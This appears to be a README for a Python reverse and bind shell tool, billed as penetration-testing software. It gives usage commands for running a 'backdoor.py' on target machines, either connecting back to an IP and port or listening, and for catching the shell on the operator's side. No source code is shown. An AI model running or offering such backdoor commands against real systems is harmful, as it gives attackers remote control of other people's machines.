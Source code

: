 Python Reverse-Bind Shell
<h1>Windows support not yet</h1>

Usage:
        >>chmod +x akhyls.py
        
        chmod +x backdoor.py

        >>./akhyls.py -R <PORT>                 (reverse shell)(own computer)
        >>./backdoor.py --c <IP> <PORT>         (connect mode)(vulnerable machines for penetration testing)
        >> Interactive shell to check >> use command 'shell_check'
        >>Interactive shell to spawn >> use command 'interactive_shell'
<img src="https://preview.ibb.co/kT9JLz/1.png">
<img src="https://image.ibb.co/nmjBxe/Screen_Shot_08_23_18_at_10_37_PM.png">

        
        OR              OR              OR
        
        >>./backdoor.py --l <PORT>              (listen mode)(vulnerable machines for penetration testing)
        >>./akhyls.py -B <IP> <PORT>            (bind shell)(own computer)
        >> Interactive shell to check >> use command 'shell_check'
        >>Interactive shell to spawn >> use command 'interactive_shell'

<img src="https://image.ibb.co/bCFvOK/Screen_Shot_08_23_18_at_10_38_PM.png">      
<img src="https://preview.ibb.co/b3ffYK/Screen_Shot_08_20_18_at_04_52_PM_001.png">

